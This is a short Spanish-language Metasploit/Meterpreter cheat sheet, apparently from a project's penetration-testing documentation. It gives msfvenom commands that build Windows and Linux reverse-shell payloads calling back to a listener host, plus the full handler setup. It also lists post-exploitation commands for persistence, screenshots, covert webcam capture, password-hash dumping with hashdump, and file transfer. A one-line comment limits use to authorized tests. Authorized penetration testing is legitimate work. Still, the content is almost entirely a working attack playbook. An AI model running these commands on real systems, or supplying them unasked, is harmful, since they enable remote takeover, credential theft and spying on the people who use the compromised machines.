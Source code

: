 ### Configuración en el Proyecto

#### 1. Variables de Entorno Configuradas
```bash
PENETRATION_TEST_MODE=false    # Activar solo durante pruebas autorizadas
METASPLOIT_HOST=127.0.0.1     # IP del servidor Metasploit
METASPLOIT_PORT=4444          # Puerto para conexiones
```

#### 2. Comandos Básicos de Meterpreter

**Generar Payload:**
```bash
# Payload para Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe

# Payload para Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > payload.elf
```

**Configurar Listener:**
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

#### 3. Comandos de Meterpreter para Auditoría

**Información del Sistema:**
```bash
sysinfo                    # Información del sistema
getuid                     # Usuario actual
ps                         # Procesos en ejecución
netstat                    # Conexiones de red
```

**Persistencia:**
```bash
run persistence -S -U -X -i 60 -p 4445 -r 192.168.1.100
```

**Captura de Pantalla:**
```bash
screenshot                 # Tomar captura de pantalla
webcam_snap               # Tomar foto con webcam
```

**Extracción de Datos:**
```bash
hashdump                  # Extraer hashes de contraseñas
download archivo.txt      # Descargar archivo
upload archivo.txt        # Subir archivo
```

---